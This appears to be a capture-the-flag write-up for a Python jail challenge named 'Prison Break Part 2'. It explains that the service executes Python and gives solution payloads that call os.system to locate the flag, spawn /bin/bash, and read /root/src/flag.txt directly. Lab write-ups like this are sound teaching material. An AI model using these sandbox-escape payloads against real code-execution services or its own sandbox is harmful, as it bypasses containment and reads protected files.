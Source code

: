 # Prison Break Part 2
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module

### Solution
1. To locate the flag file
  ```print(os.system("locate flag.txt"))```

2. Gaining root access to the container or directly reading the file
  ```print(os.system("/bin/bash"))``` or ```print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))```
